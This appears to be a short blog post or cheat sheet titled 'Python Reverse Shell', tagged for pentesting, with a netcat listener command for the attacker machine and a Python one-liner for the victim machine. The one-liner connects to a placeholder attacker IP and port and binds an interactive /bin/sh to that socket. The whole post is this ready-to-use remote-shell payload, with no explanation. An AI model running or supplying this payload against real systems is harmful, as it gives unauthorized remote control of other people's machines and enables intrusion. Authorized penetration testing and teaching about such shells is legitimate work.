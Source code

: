 ```yaml
---
layout: post
title: "Python Reverse Shell"
tags: [python,reverse-shell,pentesting]
---
```


## Attacker Machine
```bash
nc -nvlp <$ATTACKER_PORT>
```

## Victim Machine
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<$ATTACKER_IP>",<$ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

---
